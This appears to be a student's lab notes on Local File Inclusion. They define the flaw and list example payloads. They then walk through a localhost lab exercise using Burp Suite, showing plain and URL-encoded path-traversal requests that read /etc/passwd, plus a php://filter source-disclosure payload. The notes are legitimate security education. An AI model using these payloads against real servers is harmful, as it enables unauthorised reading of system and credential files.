 > Local File Inclusion and Remote File Inclusions

## ==What is LFI ?==

- LFI is a vulnerability where an attacker can ==**include files from the local server**== (the machine hosting the website) ==**through a vulnerable input.**==

- USE CASE :
    - To read sensitive files like `/etc/passwd` (Linux)
    - `C:\Windows\win.ini` (Windows).

  

```Markdown
# EXAMPLE PAYLOADS 

	- http://example.com/index.php?page=../../../../etc/passwd
	- http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

  

### File Inclusion 0x01

1. Under Select recipe:
    1. choose a recipe and look in Burp Suite.

```Markdown
GET /labs/fi0x01.php?filename=chocolate_cake.txt HTTP/1.1
Host: localhost
```

1. The highlighted is a file. NOW instead of this lets manipulate it to show print some files like “etc/passwd —- LINUX”.

  

```Markdown
## Ori:

	GET /labs/fi0x01.php?filename=chocolate_cake.txt HTTP/1.1
	Host: localhost
	
## Without enocoding:

	GET /labs/fi0x01.php?filename=../../../../../etc/passwd HTTP/1.1
	Host: localhost
	
### OUTPUT : 
```

  

![[image 31.png|image 31.png]]

  

```Markdown
### If the above method didn't work, 
### then try to encode the url and then send the encoded one.


## Encoded URL:

	GET /labs/fi0x01.php?filename=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
	Host: localhost
	
	
## OUPUT : 

	- same ouptut as above
```
